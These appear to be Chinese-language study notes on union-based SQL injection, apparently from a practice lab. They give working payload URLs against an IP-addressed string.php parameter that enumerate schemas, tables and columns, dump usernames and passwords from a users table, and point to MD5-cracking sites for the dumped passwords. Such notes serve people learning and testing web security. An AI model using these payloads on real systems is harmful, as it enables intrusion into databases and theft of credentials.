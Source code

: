   ```

          ![image](assets/image-20240819205627-tmwleeo.png)

          ```sql
          http://1.14.28.17:15460/string.php?id=0' union select 1,group_concat(schema_name),user() from information_schema.schemata#
          ```

          information\_schema.schemata  数据库名.表名   该表存放了数据库信息

          ![image](assets/image-20240822101539-oayadii.png)

          ![image](assets/image-20240822103305-czb49l2.png)

          limit 0,1 ==> 控制结果返回行数 第一个参数是从0开始，代表从第一个结果开始。第二参数为行数，从1开始，代表返回一行。★

          order by  ==> 指定某个字段进行排序 order by id 从id字段进行排序 asc desc

          group by  ==> 利用分组排序 select username,count(id) from users group by id;
        * 查询当前数据库内所有的【表名】

          ![image](assets/image-20240819205709-2kh8vja.png)

          ![image](assets/image-20240822104011-jh5doee.png)

          注意：mysql中的where用于条件查询，where table_schema=database() 表示把 table_schema字段=数据库名（message）的字段查询出来，如果不加这一句的话，全部table_secema对应的table_name都会被查询出来。

          ```url
          http://1.14.28.17:58551/string.php?id=0' union select 1,group_concat(table_name),database() from information_schema.tables where table_schema=database()%23

          http://1.14.28.17:58551/string.php?id=0' union select 1,group_concat(table_name),database() from information_schema.tables where table_schema='message'%23
          ```

          ![image](assets/image-20240822105638-sboiwhk.png)
        * 查询security数据库内users表名【字段名】

          ![image](assets/image-20240819205821-0lo38su.png)

          ![image](assets/image-20240822110757-9zkvwpr.png)

          ```url
          http://1.14.28.17:58551/string.php?id=0' union select 1,group_concat(column_name),database() from information_schema.columns where table_schema=database() and table_name='users'%23
          ```

          和查询数据库名一样，group_concat(column_name) 查询字段名一行显示，在information_schema.COLUMNS这个表中，条件为TABLE_SCHEMA=database() and TABLE_NAME='users'.
        * 查询字段对应的【数据】

          ![image](assets/image-20240819205851-yr2bjml.png)

          ```url
          http://1.14.28.17:58551/string.php?id=0' union select 1,group_concat(username),group_concat(password) from security.users%23
          ```

        * 解密数据

          md5 ==> cmd5.org(base64 sha1 sha256 sha512) somd5.com
3. 提升权限
  ```